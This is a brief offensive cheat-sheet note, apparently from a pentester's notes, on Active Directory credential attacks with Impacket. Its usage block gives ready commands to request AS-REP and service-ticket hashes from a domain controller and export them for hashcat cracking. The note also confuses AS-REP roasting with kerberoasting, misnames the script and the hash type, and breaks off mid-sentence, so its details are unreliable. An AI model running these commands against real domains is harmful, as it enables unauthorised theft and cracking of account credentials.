 
For kerberoasting (Capture TGT account's hash)
Queries target domain for users with 'Do not require Kerberos

hashcat -m 13100

## used for: 
- This script will attempt to list and get TGTs for those users that have the property


## usage:  
```
GetNPUser.py DOMAIN.local/USERNAME PASSWORD or -no-pass 
GetNPUser.py -dc-ip IP 'DOMAIN' -request 
GetNPUser.py -dc-ip IP -request 'DOMAIN' -format hashcat  # dump
GetUserSPNs.py <DOMAIN/username:password> -dc-ip <ip of DC> -request
```
---
Tags: #AD #kerberos #impackets #kerberostaing #kerberos
Resources: [Impacket](https://github.com/fortra/impacket)